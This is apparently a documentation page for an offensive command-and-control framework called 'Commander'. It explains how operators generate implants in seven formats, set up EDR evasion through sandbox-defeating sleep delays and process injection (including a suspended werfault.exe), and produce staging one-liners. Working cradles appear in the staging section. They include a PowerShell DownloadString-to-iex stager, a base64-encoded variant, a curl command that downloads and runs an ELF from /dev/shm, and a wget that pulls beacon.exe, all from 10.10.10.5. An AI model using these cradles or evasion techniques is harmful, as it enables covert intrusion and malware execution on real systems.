

# Implant Lifecycle & Script Generation — Functional Guide

## Purpose and Business Value

Every enterprise engagement requires tailored implants. Blue team endpoint detection and response (EDR) defenses vary by operating system, process architecture, and execution vector. Operators must rapidly generate diverse artifact formats — Windows executables, service binaries for lateral movement, reflective DLLs for process injection, raw shellcode, Linux ELF binaries, or in-memory PowerShell stagers — without leaving the C2 console or manually running compilation tools.

The **Implant Management Subsystem** in Commander allows operators to:
- Request server-side compilation of customized implants on-demand (`implant generate`).
- Specify target listener endpoints, architectures (`x64` / `x86`), and evasion parameters.
- Configure advanced in-memory process injection and execution delays to bypass behavioral antivirus engines.
- Automatically produce execution one-liners and staging cradles tailored for immediate execution on target machines.
- Download compiled binaries directly to the operator's workstation (`implant download`).

---

## Implant Generation Workflow



---

## Supported Implant Formats & Architectures

Operators can generate payloads across seven distinct artifact formats:

| Format Code (`-t`) | Artifact Type | Common Operational Use Case | File Extension |
| :--- | :--- | :--- | :--- |
| `exe` | Windows Executable | Direct execution, scheduled task payload, user execution. | `.exe` |
| `dll` | Dynamic Link Library | DLL search-order hijacking, sideloading, rundll32 execution. | `.dll` |
| `rfl` | Reflective DLL | In-memory process injection, reflective PE loaders. | `.dll` |
| `svc` | Windows Service Binary | Lateral movement via Service Control Manager (`PsExec` style). | `.exe` |
| `ps` | PowerShell In-Memory Stager | Memory-only execution without touching target disk. | `.ps1` |
| `bin` | Raw Shellcode | Memory injection into target processes, runner exploitation. | `.bin` |
| `elf` | Linux Executable | Compromise and persistence on Linux servers and containers. | *(None)* |

Architectures supported: **`x64`** (64-bit, default) and **`x86`** (32-bit).

---

## Process Injection Configuration

To evade defensive surveillance and blend into normal operating system behavior, Commander supports built-in process injection options during generation:

- **Evasion Delay (`-id <seconds>`)**: Specifies a sleep timer (default 60 seconds) prior to unpacking and executing in memory, defeating automated sandbox analysis.
- **Specific Process ID Injection (`-ipid <pid>`)**: Instructs the injector to locate and inject into a specific existing process.
- **Process Name Injection (`-ipn <process_name>`)**: Injects into a running process matching the designated image name (e.g., `explorer.exe`, `spoolsv.exe`).
- **Process Spawning Injection (`-ips <image_path>`)**: Instructs the runner to spawn a sacrificial process (e.g., `C:\Windows\System32\werfault.exe`), suspend it, inject the C2 implant, and resume execution.

---

## Automated Staging Script Generation (`implant script`)

Once an implant is generated, Commander automatically formats one-liners according to the payload type and bound listener:

### 1. In-Memory PowerShell Cradle
For `-t ps` payloads:
- **Plaintext Stager**:
  ```powershell
  powershell -noP -sta -w 1 -c "[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;...;(New-Object Net.WebClient).DownloadString('http://10.10.10.5:80/imp/agent123.ps1') | iex"
  ```
- **Base64-Encoded Stager**:
  ```powershell
  powershell -noP -sta -w 1 -e W05ldC5TZXJ2aWNlUG9pbnRNYW5hZ2VyXTo6...
  ```

### 2. Linux Bash Delivery One-Liner
For `-t elf` payloads:
```bash
curl -s -o /dev/shm/agent_linux http://10.10.10.5:80/imp/agent_linux && chmod +x /dev/shm/agent_linux && /dev/shm/agent_linux &
```
*(Executes out of `/dev/shm` in-memory shared filesystem to avoid disk footprints).*

### 3. Binary Download Stager
For binary formats (`exe`, `dll`, `svc`):
```powershell
powershell -noP -sta -w 1 -c "wget http://10.10.10.5:80/imp/beacon.exe -OutFile beacon.exe"
```

---

## Command Operations Reference (`implant`)

```text
implant show
implant generate -l <listener> -t <type> [-a <arch>] [-dl] [-d] [-i] [-id <sec>]
implant download -n <implant_name>
implant script -n <implant_name>
implant delete -n <implant_name>
```

---

## Technical Cross-Reference

- Implant verb command implementation: [Command Handlers](../../Technical/Commander/command-handlers.md).
- Stager string generation and script templates: [Formatters & Helpers](../../Technical/Commander/formatters-and-helpers.md).
- TeamServer compilation API calls: [Communication & State Sync](../../Technical/Commander/communication-and-state-sync.md).
